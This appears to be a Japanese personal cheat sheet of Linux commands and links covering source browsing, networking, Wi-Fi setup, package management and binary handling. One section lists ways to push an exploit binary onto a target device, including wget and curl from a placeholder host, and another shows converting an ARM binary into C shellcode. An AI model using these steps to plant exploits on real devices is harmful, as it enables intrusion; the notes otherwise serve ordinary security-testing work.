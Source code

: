 ## Linuxソースコード
<details>
<summary>Linuxコマンド</summary>

https://qiita.com/Nao1215/items/770429ada9fb463ae2ef

Ubuntu環境<br>
https://blog.amedama.jp/entry/ubuntu-fetch-cmd-src

</details>

<details>
<summary>Linuxカーネル</summary>

ダウンロード<br>
https://www.atmarkit.co.jp/ait/articles/1703/01/news171.html

ブラウザ<br>
https://code.woboq.org/linux/linux/ <br>
↑定義元とか追えて便利

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/

</details>

## GLIBC
<details>
<summary>ブラウザ</summary>

手順①：以下サイトにアクセスし、任意のGLIBCバージョンを選択する<br>
https://sourceware.org/git/?p=glibc.git;a=tags <br>

![image](https://user-images.githubusercontent.com/82632174/188454097-62349095-f2b9-49ec-aa7a-ef3c725492fa.png)


手順②：「tree」を押すとディレクトリ一覧が表示される<br>
![image](https://user-images.githubusercontent.com/82632174/188454130-04c6e402-0ae3-4b67-8cd0-0cfc01cac055.png)

	
手順③：任意のフォルダを開き、該当のソースコードを表示する<br>
![image](https://user-images.githubusercontent.com/82632174/188454152-e31f3803-b50e-42ad-a214-2a2aa6100fdb.png)
	
</details>
	
## ネットワーク

<details>
<summary>デフォルトゲートウェイの変更</summary>

手順⓪：既存ルールの確認

```route -n```<br>
![image](https://user-images.githubusercontent.com/82632174/188447642-c5305410-e13a-49cb-97db-751ce9c3e92e.png)<br>
※多分一番上のゲートウェイが優先ゲートウェイ
	
手順①：デフォルトゲートウェイの削除<br>
`route delete default`
	
手順②：デフォルトゲートウェイの追加<br>
`route add default gw [GWのIPアドレス]`
		
https://centos.bungu-do.jp/archives/11
	
</details>

<details>
<summary>攻撃対象ディレクトリにバイナリを転送する</summary>

①wget exmample.com/exploit

![image](https://user-images.githubusercontent.com/82632174/188448560-c6f94713-be85-4ef8-907d-bceb150f9168.png) <br>
※busyboxにも入っているため使用できるケースが多そう(17M Accordの場合)

②curl -o exmample.com/exploit
	
③adb push [exploitバイナリ] [ターゲット端末の任意パス]
	
④scp [exploitバイナリ] username@remote.example.com:/remote/directory <br>
※ターゲット端末上でsshサーバ(sshd)が有効な場合
	
⑤scp username@remote.example.com:/remote/directory/[exploitバイナリ] /local/directory
	
⑥ftp
	
⑦ブラウザ経由でダウンロード
	
⑧Exploitコードの入ったUSBメモリをターゲットに接続し、シェルからアクセス
	
</details>

<details>
<summary>USBディスクリプタを確認</summary>

`lsusb -s [バス番号]:[デバイス番号] -v`<br>
![image](https://user-images.githubusercontent.com/82632174/188449765-391f6628-f370-465f-ba00-34358ed94cc9.png)

	
</details>

<details>
<summary>hostapdの起動</summary>

`hostapd -B [confファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450168-4df8af7c-34b5-49e5-bf4d-b5690d8fee66.png)

※-B: バックグラウンド実行
	
</details>

<details>
<summary>wpa_supplicantの起動</summary>

`wpa_supplicant -i[NIC] -c[configファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450438-cfc58f2e-5bbf-42c2-b930-a6860ac2269e.png)


https://www.atmarkit.co.jp/ait/articles/1601/22/news026.html

※-dオプションをつけるとデバッグ情報を表示できる)
	
</details>

<details>
<summary>コマンドラインでのWi-Fi接続設定</summary>

手順①：/etc/wpa_supplicant/wpa-supplicant.confのssidとpskを接続したAPのものに設定する
![image](https://user-images.githubusercontent.com/82632174/188451174-68f7a8a4-dd94-4c9c-b27f-19b4e198b9f4.png)


手順②：機器をリブートする

https://qiita.com/mym/items/468d2cdb30d756b6df24

</details>

<details>
<summary>dhcpcdの起動</summary>

`dhcpcd`<br>
![image](https://user-images.githubusercontent.com/82632174/188451707-95007776-cf1b-4b5a-95c7-ddffcb2a3404.png)

※wpa_supplicantを起動し、APに接続した状態でdhcpcdを起動するとDHCPリクエストを送信しIPが割り当てられる
	
</details>

<details>
<summary>DNS参照先の確認</summary>

Windowsの場合：<br>
`ipconfig /all`<br>
![image](https://user-images.githubusercontent.com/82632174/188452038-596a1eb3-4cfe-4372-ba8c-4b2927c68811.png)

Linuxの場合：<br>
①/etc/resolv.confの中身<br>
②digのレスポンスの「SERVER:」で表示されるIPアドレス<br>
![image](https://user-images.githubusercontent.com/82632174/188452249-d5ddff83-af2f-4000-a1f2-0223c730eb90.png)

Digコマンドレスポンスの見方:
https://qiita.com/hypermkt/items/610b5042d290348a9dfa
	
</details>

## アプリインストール

<details>
<summary>apt アンインストール</summary>

パッケージのみをアンインストール<br>
`sudo apt remove [パッケージ名]`<br>

依存関係のあるパッケージごとアンインストール<br>
`sudo apt --purge remove [パッケージ名]`
	
</details>

<details>
<summary>インストール済みパッケージ一覧を表示</summary>

`sudo dpkg -l`<br>

</details>

<details>
<summary>RPMパッケージインストール</summary>

`rpm -ivh [.rpmファイル]`<br>

https://atmarkit.itmedia.co.jp/flinux/rensai/linuxtips/049instrpm.html#:~:text=RPM%E3%83%91%E3%83%83%E3%82%B1%E3%83%BC%E3%82%B8%E3%82%92%E3%82%A4%E3%83%B3%E3%82%B9%E3%83%88%E3%83%BC%E3%83%AB%E3%81%99%E3%82%8B,%E3%82%92%E7%9F%A5%E3%82%8B%E3%81%93%E3%81%A8%E3%81%8C%E3%81%A7%E3%81%8D%E3%82%8B%E3%80%82

</details>

<details>
<summary>RPMパッケージインストール</summary>

`apt install [.debファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188617673-c73f8d80-dedf-4bb8-b374-7333324b020f.png)

</details>

## ファイル操作

<details>
<summary>複数の圧縮ファイルを一括展開</summary>

`for f in *.zip; do unzip -d "${f%*.zip}" "$f"; done`<br>
※zipの部分をapkに変えるとapkの一括展開も可能

https://cocoinit23.com/unzip-each-directory/

</details>

## バイナリ操作

<details>
<summary>バイナリをシェルコード化(C言語用)</summary>

バイナリデータの.textセクション情報表示(arm向けバイナリの場合)<br>
`arm-none-eabi-objdump -m arm -s [バイナリファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188619081-281c98fc-be1c-4d24-978f-6425f9c0c8a8.png) <br>
※.textセクションのHexデータがプログラムの本体(シェルコード)

Cコード向けシェルコードに変換<br>
`perl -ple 's/(\w{2})\s?/\\x\1/g' <<<".textセクションのHex値(黄色枠)"`
	
</details>

<details>
<summary>バイナリデータを16進ダンプ</summary>

`od -tx1z -Ax [バイナリファイル]`<br>

https://qiita.com/abechi_17/items/999a6d7a370b58bb83be

</details>

<details>
<summary>バイナリデータの切り出し</summary>

`dd if=[入力ファイル] of=[出力ファイル] bs=[ブロックサイズ] skip=[オフセット] count=[サイズ] status=progress`<br>
![image](https://user-images.githubusercontent.com/82632174/188620247-d7eca688-9aa7-45bd-b2ee-f4c7866403da.png) <br>
※切り出すサイズはbs × countのサイズになる

※上記画像は以下のELFファイルを切り出す場合の例<br>
![image](https://user-images.githubusercontent.com/82632174/188620550-694826f5-273f-4d92-a3ce-da499b8248cd.png)

</details>



